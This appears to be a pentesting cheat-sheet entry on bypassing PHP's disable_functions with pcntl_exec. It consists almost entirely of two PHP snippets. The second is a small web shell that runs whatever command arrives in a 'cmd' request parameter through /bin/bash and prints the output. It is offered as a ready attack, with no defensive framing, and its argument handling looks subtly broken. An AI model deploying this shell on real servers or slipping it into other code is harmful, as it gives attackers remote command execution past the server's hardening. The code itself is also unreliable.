 # disable\_functions bypass - PHP 4 &gt;= 4.2.0, PHP 5 pcntl\_exec

## PHP 4 &gt;= 4.2.0, PHP 5 pcntl\_exec

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<?php
$dir = '/var/tmp/';
$cmd = 'ls';
$option = '-l';
$pathtobin = '/bin/bash';
 
$arg = array($cmd, $option, $dir);
 
pcntl_exec($pathtobin, $arg);
echo '123';
?>
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec')) {
    $cmd = $cmd."&pkill -9 bash >out";
    pcntl_exec("/bin/bash", $cmd);
    echo file_get_contents("out");        
} else {
        echo '不支持pcntl扩展';
}
?>
```

